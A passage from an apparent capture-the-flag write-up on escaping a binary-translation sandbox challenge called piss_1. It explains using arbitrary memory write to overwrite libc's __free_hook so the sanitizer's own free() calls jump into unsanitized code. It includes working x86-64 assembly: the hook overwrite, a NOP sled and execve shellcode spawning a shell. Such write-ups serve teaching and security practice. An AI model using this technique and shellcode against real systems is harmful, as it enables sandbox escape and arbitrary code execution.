 ```assembly

```

And this actually works (see demo4.py) and prints "hellooo world".

### Idea 2: Corrupt memory

Despite not being able to execute syscalls, memory reads and writes are untouched, so we have arbitrary write anywhere in this program. That is very powerful, and it turns out this is the key
to the (intended) solution to piss_1.

When you have arbitrary write in any other kind of program, a popular target is always `__free_hook`. This is a function pointer in libc's data segment that is
called whenever a chunk is free'd.

The key insight we need to have is that there *is* code that runs to do some sort of sanitization. We'll look in more detail at this to solve `piss_2`, but a large portion of the code is in `process_bb`, which is called whenever you take a jump or syscall:

- `to_runtime_jump` => `runtime_entry::handle_jmp` => `process_bb`
- `to_runtime_syscall` => `runtime_entry::handle_syscall` => `process_bb`
- ... (we will look in more detail in `piss_2`. 

**The code that reads our instructions and replaces syscalls and jumps also uses libc.** So if we set `__free_hook` to somewhere to jump, it will jump there whenever the sanitization code does a free!

So to escape the jail and jump to our unsanitized shellcode, we can just set `__free_hook` to the address of our shellcode. When something gets free'd in the sanitization code, we will actually jump to our shellcode!

```assembly
/* Offset to free_hook */
add rcx, 0xD301D

/* Value to write in free_hook */
mov rax, 0x13371337050

/* Overwrite free_hook */
mov qword ptr [rcx], rax

/* Go jump somewhere, really doesn't matter where */
mov rax, 0x13371337050
jmp rax

/* This is a NOP sled so that 0x13371337050 lands here
and then slides down to our shellcode */
.rept 64
nop
.endr

/* Shellcode */
mov rdi, 0x68732f6e69622f
push rdi
mov eax, 0x3b
mov rdi, rsp
mov rsi, 0
mov rdx, 0
syscall

.align 256
lol:
.string "/bin/bash\\0"
```
(see exploit1.py)
